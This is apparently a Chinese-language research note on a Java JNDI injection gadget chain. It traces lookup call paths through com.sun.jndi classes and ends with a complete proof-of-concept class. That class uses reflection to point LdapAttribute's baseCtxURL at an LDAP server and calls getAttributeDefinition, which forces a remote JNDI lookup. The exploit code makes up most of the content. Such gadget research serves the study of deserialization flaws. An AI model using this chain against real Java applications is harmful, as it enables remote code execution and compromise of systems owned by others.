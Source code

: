 但是看一下jndi的lookup调用,说明调用哪一个lookup都可以

```java
javax.naming.InitialContext#lookup(java.lang.String)
-> com.sun.jndi.url.ldap.ldapURLContext#lookup(java.lang.String)
-> com.sun.jndi.toolkit.url.GenericURLContext#lookup(java.lang.String)
-> com.sun.jndi.toolkit.ctx.PartialCompositeContext#lookup(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_lookup
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> ......
```

直接看的payload（太难了，真找不到。。）

```java

com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition
-> javax.naming.directory.InitialDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.PartialCompositeDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentDirContext#p_getSchema
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_resolveIntermediate
-> com.sun.jndi.toolkit.ctx.AtomicContext#c_resolveIntermediate_nns
-> com.sun.jndi.toolkit.ctx.ComponentContext#c_resolveIntermediate_nns
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> ......
```

把断点下在 LdapCtx#

```java
import javax.naming.CompositeName;
import javax.naming.InitialContext;
import javax.naming.InvalidNameException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class poc {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException, InvalidNameException {


            String ldapCtxUrl = "ldap://127.0.0.1:9999";

            Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
            Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                    new Class[] {String.class});
            ldapAttributeClazzConstructor.setAccessible(true);
            Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                    new Object[] {"name"});

            Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
            baseCtxUrlField.setAccessible(true);
            baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

            Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
            rdnField.setAccessible(true);
            rdnField.set(ldapAttribute, new CompositeName("a/b"));

            Method getAttributeDefinitionMethod = ldapAttributeClazz.getMethod("getAttributeDefinition");
            getAttributeDefinitionMethod.setAccessible(true);
            getAttributeDefinitionMethod.invoke(ldapAttribute);
    }
}
```